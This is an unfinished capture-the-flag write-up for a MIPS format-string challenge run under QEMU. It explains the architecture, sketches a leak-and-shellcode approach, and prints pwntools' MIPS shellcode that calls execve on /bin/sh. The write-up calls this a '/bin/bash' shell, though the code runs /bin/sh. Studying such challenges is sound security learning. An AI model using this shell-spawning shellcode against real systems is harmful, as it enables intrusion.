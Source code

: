 **Binary Blast**

**Description**
nc 0.cloud.chals.io 12490

Ready for a blast from the past? Navigate the MIPS landscape and watch out for those sneaky format strings. Beware of fake flags—only the real one will do!

Author: LMS

**Writeup**

I did not end up solving this challenge due to lack of experience with pwn challenges. However, I did learn quite a bit from this challenge, especially about MIPS and QEMU. 

First things first, the challenge mentions two key terms that are crucial to this challenge: `format strings` and `MIPS`. The challenge provides a MIPS binary (`chall`) running on a remote server (with the `qemu-mips` binary). 

*MIPS*: MIPS (Microprocessor without Interlocked Pipeline Stages) is a RISC (Reduced Instruction Set Computing) architecture widely used in embedded systems and network devices. MIPS processors execute a streamlined set of instructions, which allows for efficient pipelining and performance. 

*QEMU*: QEMU (Quick Emulator) is a free and open-source emulator that can perform hardware virtualization. It is often used to emulate different CPU architectures, including MIPS.

Upon some research I found this repository with a MIPS exploit involving shellcode injection: https://github.com/w0lfzhang/mips_exploit/tree/master
I read through the PDFs, but I was unable to employ the proof of concept to this challenge.

After research and decompiling the `chall` binary, I believe that the exploit involves leaking memory using the format string vulnerability, injecting shellcode, and executing it to get the shell.

The format string vulnerability in this challenge was not conventional. Usually, the binary has outputs for the injected format strings. However, there was no output in our case. Had I had more experience with pwn, I would have spotted how to work around this hurdle.

Generating the shellcode can be done through the use of `shellcraft` from `pwntools`. I believe `shellcraft.mips.linux.sh()` should be sufficient for spawning a `/bin/bash` shell for this challenge.
Here is what the `shellcraft` shellcode looks like in assembly:
```assembly
    /* execve(path='//bin/sh', argv=['sh'], envp={}) */
    /* push b'//bin/sh\x00' */
    li $t1, 0x69622f2f
    sw $t1, -12($sp)
    li $t1, 0x68732f6e
    sw $t1, -8($sp)
    sw $zero, -4($sp)
    addiu $sp, $sp, -12
    add $a0, $sp, $0 /* mov $a0, $sp */
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00\x00' */
    ori $t1, $zero, 26739
    sw $t1, -4($sp)
    addiu $sp, $sp, -4
    slti $a1, $zero, 0xFFFF /* $a1 = 0 */
    sw $a1, -4($sp)
    addi $sp, $sp, -4 /* null terminate */
    li $t9, ~4
    not $a1, $t9
    add $a1, $sp, $a1
    sw $a1, -4($sp)
    addi $sp, $sp, -4 /* 'sh\x00' */
    add $a1, $sp, $0 /* mov $a1, $sp */
    /* push argument array [] */
    /* push b'\x00' */
    sw $zero, -4($sp)
    addiu $sp, $sp, -4
    slti $a2, $zero, 0xFFFF /* $a2 = 0 */
    sw $a2, -4($sp)
    addi $sp, $sp, -4 /* null terminate */
    add $a2, $sp, $0 /* mov $a2, $sp */
    /* setregs noop */
    /* call execve() */
    ori $v0, $zero, SYS_execve
    syscall 0x40404
```
